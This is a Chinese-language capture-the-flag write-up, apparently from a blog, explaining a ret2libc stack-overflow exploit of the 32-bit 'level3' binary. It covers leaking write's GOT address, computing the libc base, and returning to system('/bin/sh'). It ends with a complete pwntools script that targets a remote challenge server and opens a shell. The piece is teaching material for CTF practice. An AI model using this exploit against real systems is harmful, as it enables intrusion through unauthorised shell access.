 查看安全机制  
![2020-06-06-16-58-09](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-16-58-09.png)  
没有开启`PIE`，所以`libc`中函数的相对地址不发生变化(程序自带函数地址也不会发生变化)，也就是说只要知道`libc`在程序中的的基址，根据偏移地址就可以知道任何函数在程序中的实际地址  

拖入IDA查看反汇编代码  
![2020-06-06-17-35-00](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-17-35-00.png)  
在`vulnerable_function()`中`read()`函数存在溢出，然而程序中并没有现成的system函数，所以必须想办法调用动态连接库中的函数

**攻击思路:** 利用栈溢出返回到`write`函数(注意:只能通过plt调用函数，不能直接跳转到got表)，同时传入`write`函数的`got`表的地址，由于程序没有开启`PIE`保护，所以程序中`plt`表和`got`表的位置都是不会变化的，函数的相对地址也是固定的，所以可以通过本地的程序获取`write`函数`got`表的地址，然后输出`write`函数实际地址。  
将得到的实际地址与`libc`中的`write`的偏移地址相减，则可以得到`libc`的基地址，加上`system`函数在`libc`里面的偏移地址，就可以得到`system`函数在程序中的实际地址  
此时利用溢出再次控制返回函数到`main`函数，二次攻击溢出返回到`system`函数，传入`/bin/sh`参数，就可以得到`shell`了  

**注:** 字符串`/bin/sh`可以在libc中找到，查找方法如下
```
strings -a -t x libc_32.so.6 | grep "/bin/sh"
```

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
elf = ELF('./level3')
libc = ELF('./libc_32.so.6')
write_plt = elf.plt['write']    #返回的是数字，非字符
write_got = elf.got['write']
main_addr = elf.symbols['main']
write_off = libc.symbols['write']

io = remote('220.249.52.133','47190')
io.recvuntil('Input:\n')
payload = 'A'*0x8c+p32(write_plt)+p32(main_addr)
payload += p32(1)+p32(write_got)+p32(4) #传入参数write(1,write_got,4)
io.sendline(payload)
write_addr = u32(io.recv())
io.recvuntil('Input:\n')

libc_addr = write_addr-write_off        #计算出libc基址
system_addr = libc.symbols['system']+libc_addr  #libc基址加上system偏移地址得到实际地址
bin_sh_addr = 0x15902b + libc_addr      #基址加上使用strings得到的/bin/sh的偏移地址
payload = 'A'*0x8c+p32(system_addr)+'A'*4+p32(bin_sh_addr)
io.sendline(payload)
io.interactive()
```

参考链接  
[https://www.cnblogs.com/at0de/p/11269120.html](https://www.cnblogs.com/at0de/p/11269120.html)  
[https://bbs.pediy.com/thread-254858.htm](https://bbs.pediy.com/thread-254858.htm)  
[https://www.jianshu.com/p/457520f97a76](https://www.jianshu.com/p/457520f97a76)
